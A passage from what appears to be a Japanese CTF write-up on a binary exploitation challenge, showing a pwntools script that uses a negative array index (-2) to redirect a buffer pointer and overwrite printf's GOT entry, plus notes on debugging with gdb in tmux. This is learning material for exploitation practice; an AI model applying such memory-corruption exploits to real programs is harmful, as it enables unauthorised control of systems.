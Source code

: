 x[-2]に書き込むとbufferのアドレスを書き換えられるので次にreadが呼ばれるタイミングでそのアドレスにreadで読み込んだ値を書き込むことができる。
ここまで動くk-taka作成のコードは以下の通り。

```python
from pwn import *
​
printf_got = 0x601020
​
p = process('./chall')
​
gdb.attach(p, '''
    break *0x400813
''')
​
p.recvuntil('index: ')
p.sendline('-2')
p.recvuntil('value: ')
p.sendline(str(printf_got))
​
p.recvuntil('index: ')
p.sendline('AAAAAAAA') # printfのgot上書き
​
print p.recv(100)
```

ここでpwn toolsのgdbの機能を知らなかったのでとても勉強になった。
tmuxでこのプログラムを実行するとpwn toolsで対話しながらgdbのウィンドウが割れて開く。
とても便利。

![tmux + pwn tools + gdb-peda](pwntools_gdb.png)
